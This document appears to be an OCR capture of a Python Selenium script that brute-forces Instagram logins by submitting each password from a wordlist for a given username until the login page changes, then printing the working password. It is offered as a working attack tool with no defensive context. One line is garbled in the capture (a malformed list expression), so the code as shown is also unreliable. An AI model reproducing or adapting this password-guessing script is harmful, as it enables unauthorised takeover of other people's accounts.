 from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys
import time


username_file = input ("Enter the path of the username file: ")
password_file = input ("Enter the path of the password file: ")


with open (username_file, 'r') as file:
    username = file.readline().strip()


with open(password_file, 'r') as file:
    passwords = line.strip() for line in file.readlines()


driver = webdriver.Chrome()  # Or use Firefox with webdriver.Firefox()


driver.get("https://www.instagram.com/accounts/login/")
time.sleep(5)  # Wait for the page to load


login_page_url = driver.current_url


login_successful = False
for password in passwords:
   
    driver.refresh()
    time.sleep(5)  # Wait for the page to reload

    
    username_field = driver.find_element(By.NAME, "username")
    password_field = driver.find_element(By.NAME, "password")
    
    
    username_field.clear()
    password_field.clear()

   
    username_field.send_keys(username)
    password_field.send_keys(password)

    
    password_field.send_keys(Keys.RETURN)

    
    time.sleep(10)

    
    current_url = driver.current_url
    if current_url != login_page_url:
        login_successful = True
        print(f"Login successful with username: {username} and password: {password}")
        break
    else:
        print(f"Login failed with password: {password}")


if not login_successful:
    print("All passwords failed. Could not log in.")

driver.quit()
